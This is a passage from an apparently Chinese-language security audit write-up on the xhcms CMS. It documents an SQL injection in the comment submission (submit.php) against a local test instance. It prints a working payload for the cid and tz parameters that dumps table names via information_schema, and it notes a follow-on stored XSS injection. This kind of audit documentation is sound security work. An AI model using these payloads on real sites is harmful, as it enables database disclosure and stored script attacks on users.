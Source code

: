 ![image-20221017143456468](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221017143456468.png)



## 2.3 评论区的SQL注入

### 2.3.1漏洞概要

| **类目** | **内容**                                                     | **备注**  |
| -------- | ------------------------------------------------------------ | --------- |
| 漏洞位置 | http://127.0.0.1/?r=content&cid=14<br />/xhcms/file/submit.php | 第9和11行 |
| 漏洞类型 | sql注入                                                      |           |
| 严重性   | 严重                                                         |           |
| 主要危害 | 敏感信息泄露，上传XSS存储型攻击代码                          |           |
| 其他信息 |                                                              |           |

### 2.3.2漏洞详情

编辑评论信息，然后使用Burp抓包

![image-20221017170716876](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221017170716876.png)

![image-20221017170806655](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221017170806655.png)

这里面cid和tz都可以随意更改，且没有任何校验和过滤，下面是`payload`

**cid：**

```sql
14','shihao','1424741814@qq.com','','79','PC','192.168.235.1',(select group_concat(table_name) result from information_schema.TABLES),/*
```

**tz：**

```php
*/'
```

![image-20221017171905293](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221017171957053.png)

查看网页

![image-20221017171957053](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221017172225227.png)

注入XSS

![image-20221017172225227](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221017171905293.png)

![image-20221017172237932](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221017172237932.png)
